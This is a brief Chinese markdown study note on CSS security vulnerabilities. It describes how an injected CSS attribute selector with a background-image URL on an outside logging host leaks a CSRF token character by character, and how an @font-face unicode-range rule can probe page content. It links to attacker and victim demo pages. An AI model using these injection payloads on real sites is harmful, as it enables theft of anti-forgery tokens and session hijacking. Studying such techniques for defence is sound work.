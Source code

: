 ```yaml
---
title: CSS安全漏洞
tags: 
- CSS
---
```


## CSS安全漏洞
- 伪元素

- background-image属性
  
  举例如下，
  
  原理
  
  - 1、向要攻击的站点的url附上一段查询字符串，如`injection=#sensitiveForm input[value^='${csrfToken}a'] {background-image:url(https://security.love/log.php/${csrfToken}a);}`
  
  - 2、当页面存在满足以上CSS选择器时，便会触发`background-image`地址链接，推断出token的第一个字符
  
  - 3、重复步骤1、2，直到服务器再无接收到响应，可认为已获取到token的所有字符

  链接：
  
  - [攻击者地址](https://security.love/cssInjection/attacker.html)
  - [受害者地址](https://security.love/cssInjection/victim.html)

- 自定义字体
  ```css
  @font-face {
    font-family: blah;
    src: url('/page-contains-q') format('woff');
    unicode-range: U+85;
  }
  html {
    font-family: blah, sans-serif;
  }
  ```

> 这些漏洞存在安全隐患，当然也可以往好的方面利用，比如做网页追踪、分析
